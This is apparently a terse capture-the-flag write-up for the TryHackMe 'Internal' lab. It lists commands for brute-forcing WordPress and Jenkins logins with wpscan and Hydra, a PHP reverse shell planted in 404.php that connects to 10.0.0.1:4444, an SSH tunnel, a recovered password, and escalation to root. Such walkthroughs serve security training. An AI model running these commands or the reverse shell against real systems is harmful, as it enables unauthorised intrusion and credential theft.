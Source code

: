 ```yaml
---
title: "TryHackMe - Internal"
pubDate: 2025-08-26
draft: false
tags: ["Wpscan ", "Hydra", "PHP"]
---
```



##  🌐WordPress 

```bash
wpscan --url http://10.10.137.140/blog -U admin -P /usr/share/wordlists/rockyou.txt

  ```
## 🧠Reverse Shell en 404.php:


```c

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
  ```

## 🦈Acceso a Jenkins
```bash

ssh -L 9999:127.0.0.1:8080 aubreanna@10.10.137.140
  ```
  ## 🧪 Fuerza bruta con Hydra:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 9999 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid"
  ```
 ## 🧭 Fuerza bruta con Hydra (respuesta):
```bash 
(admin/my2boys)
```

## 👑 Root Access
```bash
su root
  ```